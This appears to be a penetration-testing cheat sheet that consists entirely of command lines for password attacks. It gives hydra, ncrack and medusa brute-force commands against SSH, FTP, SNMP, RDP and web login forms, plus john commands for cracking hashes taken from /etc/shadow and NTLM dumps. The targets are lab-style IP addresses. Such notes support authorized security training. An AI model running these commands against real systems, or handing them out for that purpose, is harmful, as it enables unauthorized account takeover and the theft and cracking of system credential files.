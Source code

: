 #### hydra

```hydra -P password-file.txt -v 10.11.1.219 snmp```

```hydra -l admin -P password-file.txt -v x.x.x.x ftp```

```hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp```

```hydra -l root -P password-file.txt x.x.x.x ssh```

```hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V```

```hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.106.145 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V```

-----


#### john

*unshadow /etc/passwd /etc/shadow > /tmp/unshadowed*

```john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed```

```john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm.hash```

-----


#### rdp

```ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35```

```hydra -t 1 -l username -p password1! rdp://192.168.190.130```

-----


#### medusa

```medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10```

-----
